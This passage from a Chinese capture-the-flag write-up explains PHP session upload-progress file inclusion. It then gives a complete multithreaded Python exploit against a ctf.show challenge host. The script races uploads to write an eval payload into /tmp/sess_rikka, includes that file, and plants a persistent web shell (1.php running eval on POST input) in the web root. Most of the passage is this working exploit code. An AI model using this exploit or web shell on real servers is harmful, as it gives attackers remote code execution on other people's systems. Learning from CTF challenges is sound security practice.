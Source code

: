>
> 如果`session.auto_start=on`，则php会在接收请求的时候会自动初始化Session，不再需要执行`session_start()`。
>
> 但默认情况下，这个选项都是关闭的。但session还有一个默认选项，`session.use_strict_mode`默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=rikka，PHP将会在服务器上创建一个文件`/tmp/sess_rikka`。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有`ini.get(“session.upload_progress.prefix”)`+由我们构造的`session.upload_progress.name`值组成，最后被写入sess_文件里；
>
> 简而言之，我们自定义的PHPSESSID的值会变成文件名，比如定义PHPSESSID:rikka，文件名即为/tmp/sess_rikka，而PHP_SESSION_UPLOAD_PROGRESS的值即为该文件的内容

可以直接用脚本进行发包

```python
import requests
import threading
import io
 
url = "http://522071b1-f31d-4623-80b8-334e5e39b8b4.challenge.ctf.show/"
sessID = 'rikka'
data = {
    "1": "file_put_contents('/var/www/html/1.php', '<?php eval($_POST[2]);?>');"  # read()中需要post的内容
}
 
 
def write(session):
    fileBytes = io.BytesIO(b'a' * 1024 * 50)
    while True:
        res = session.post(url,
                           data={
                               'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST[1]);?>'
                               # 改参数的值就是/tmp/sess_rikka文件的内容
                           },
                           cookies={
                               "PHPSESSID": sessID
                           },
                           files={
                               'file': ('rikka.png', fileBytes)
                           }
                           )
 
 
def read(session):
    while True:
        res1 = session.post(url + '?file=/tmp/sess_' + sessID, data=data,
                            cookies={
                                "PHPSESSID": sessID
                            })
        res2 = session.get(url+'1.php')
        if res2.status_code == 200:
            print("+++done+++")
        else:
            print(res2.status_code)
 
 
if __name__ == '__main__':
    event = threading.Event()   # 开启多线程的对象
    with requests.session() as session:
        for i in range(5):               # 开5个线程
            threading.Thread(target=write, args=(session,)).start()
        for i in range(5):
            threading.Thread(target=read, args=(session,)).start()
 
        event.set()       # 唤醒线程
```